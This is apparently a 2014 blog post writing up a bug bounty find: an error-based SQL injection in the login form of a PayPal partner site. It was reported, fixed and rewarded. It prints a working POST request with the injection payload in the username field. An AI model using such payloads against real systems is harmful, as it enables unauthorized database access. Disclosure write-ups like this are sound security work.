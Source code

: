 ```yaml
---
layout: post
title: "sqli in paypal partner"
date: 2014-11-22T07:14:07-05:00
description: "error based sql injection in easy2export.com"
---
```


**Easy2Export** is one of paypal partner website, yeah it is! [[..]](http://www.ecommercebytes.com/cab/abn/y13/m12/i24/s04)

<p align="center">
<img src="/assets/images/yeah-m.jpg">
</p>

<br>
At first, i tried to break the login form. After a few minutes of testing, I foundout that the login form is vulnerable to POST SQL Injection.

```
http://easy2export.com/index.php/site/login

POST /index.php/site/login HTTP/1.1
Host: easy2export.com
…
LoginForm[username]=’ or 1 group by concat_ws(0x3a,user(),floor(rand(0)*2)) having min(0) or 1–+&LoginForm[password]=’&LoginForm[accounttype]=sub&LoginForm[rememberMe]=0&yt0=
```
<br>
<p align="center">
<img src="/assets/images/easy2export-sql-injection1.png">
</p>
<br>
I immediately reported this to PayPal and they fixed the vulnerability issue quickly. **[10/30/2014 09:21:53]**
<br>
<p align="center">
<img src="/assets/images/inhale-m.jpg">
</p>
<br>
In their bug bounty program guidelines, it is noted that sql injection in paypal partner sites will receive 1000$.
.
.
And they checked the eligibility of my report so they then send me the reward amounting to 1000$. **[11/22/14 6:23:35]**
<p align="center">
<img src="/assets/images/paypal-bounty.png">
</p>

Thanks for reading! stay tuned for more blog posts.

